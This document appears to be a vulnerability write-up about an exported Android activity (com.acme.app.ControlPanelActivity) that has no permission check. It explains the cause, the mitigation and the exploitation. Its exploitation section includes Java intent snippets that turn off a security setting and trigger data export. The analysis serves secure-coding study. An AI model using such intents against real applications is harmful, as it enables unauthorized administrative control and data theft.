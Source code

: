 The problem arises from several factors working together:

1. **Explicit Export Configuration**: The activity is explicitly marked as exported with `android:exported="true"`. When an activity is exported, any application on the device can start it by sending an appropriate intent.

2. **Intent Filter Presence**: The presence of an intent filter automatically makes the activity exported by default, even without the explicit attribute. The combination of both an intent filter and `exported="true"` makes the intent clear.

3. **Missing Permission Checks**: Critically, there are no permission requirements specified for this activity. This could have been mitigated with:

   ```xml
   android:permission="com.acme.app.ADMIN_PERMISSION"
   
```

4. **Administrative Capability**: Based on the name and action (`com.acme.admin.ACTION_CONTROL`), this activity appears to provide administrative control functions, making the security impact particularly severe.

**Exploitation Mechanics:**

Exploitation is straightforward from a technical perspective. A malicious application on the same device can construct and send an intent directly to the vulnerable activity:

```java
// Example exploitation code
Intent intent = new Intent();
// Target the specific component by package and class name
intent.setComponent(new ComponentName(
    "com.acme.app",  // Target package name
    "com.acme.app.ControlPanelActivity")); // Target activity

// Add parameters that trigger administrative functions
intent.putExtra("admin_action", "update_config");
intent.putExtra("setting_name", "security_level");
intent.putExtra("setting_value", "disabled");

// Launch the activity
startActivity(intent);

```

Alternatively, the attacker can use the action defined in the intent filter:

```java
Intent intent = new Intent("com.acme.admin.ACTION_CONTROL");
// Add action parameters
intent.putExtra("admin_action", "export_data");
startActivity(intent);

```

Notably, neither approach requires special permissions, root access, or user interaction beyond the initial installation of the malicious app. The attack can be executed silently in the background, potentially without the user's knowledge.
